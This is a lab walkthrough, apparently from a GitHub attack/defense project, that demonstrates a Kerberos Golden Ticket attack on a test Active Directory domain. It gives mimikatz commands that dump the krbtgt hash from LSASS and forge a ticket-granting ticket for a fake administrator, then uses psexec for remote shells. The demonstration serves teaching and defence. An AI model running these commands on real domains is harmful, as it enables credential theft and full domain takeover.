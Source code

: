 # Golden Ticket LAB DEMO

Since Golden Ticket is a post compromise attack, we need to have valid credentials of a domain user preferably admin. We already compromised the Administrator using the previous attacks and we can get a shell on JUSTICE-DC using his credentials.

For a successful Golden ticket, first thing we need to compromise is the `krbtgt` account. Once we get the shell, we can load `mimikatz` tool to dump the NTLM hashes and other  useful information about this account.

### STEP 1: COMPROMISE KRBTGT ACCOUNT

To begin a Golden ticket attack, we need to gain control over the KDC which means we need to find the credentials and compromise `KRBTGT` account.

We mainly need two details, first the NTLM hash of `KRBTGT` account and then the Service ID (SID) of the domain. We will use `mimikatz` to extract this information out of DC.

```bash
lsadump::lsa /inject /name:krbtgt
```

`lsadump::lsa` : LSA Server to retrieve SAM/AD hashes
`/inject` : Inject LSASS to extract credentials
`/name` : account name for target user account

![krbtgtdetals](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/4b57a1ec-6f8e-4a5e-8740-1dc876c8dc0e)


#### STEP 2: FORGE KERBEROS TICKETS:

After compromising the `krbtgt` password hash, we can use it to create forged Kerberos tickets. For the attack we will create a Kerberos ticket-granting ticket (TGT) for a user account that doesn’t actually exist in the directory.

```bash
kerberos::golden /user:fakeuser /domain:HERO.local /sid:S-1-5-21-3383309996-1560293891-592623117 /krbtgt:650c0550568e8c32aacbb2b4e4229fda /id:500 /ptt
```

`/user:`  The username to be impersonated (can be a fake one)
`/domain:` The FQDN of the target domain
`/sid:`  the SID of the domain
`/krbtgt:` the NTLM hash for the domain KDC service account (KRBTGT)
`/id:` the user RID. use 500 for administrator
`/ptt` stands for pass the ticket. Indicates that the forged ticket should be injected into the current session instead of being written to a file.

![goldenticket](https://github.com/ab3lsec/ADAttackDefenseProject/assets/87868050/f14c37a8-8870-4c71-902b-531de90f563c)


### STEP 3: USING THE FORGED TICKETS:

After generating a ticket, we can open a new CMD with the privileges of the forget ticket using the following command and we can use it to access all other machines on the domain. 

```bash
misc::cmd
```

We can also use tools like `psexec`,  use it to gain a shell to any other machine and run commands on that machine. The following command will allow to remotely connect to BATMAN machine and execute commands on it from our local machine.

```bash
psexec.exe //BATMAN cmd.exe
```

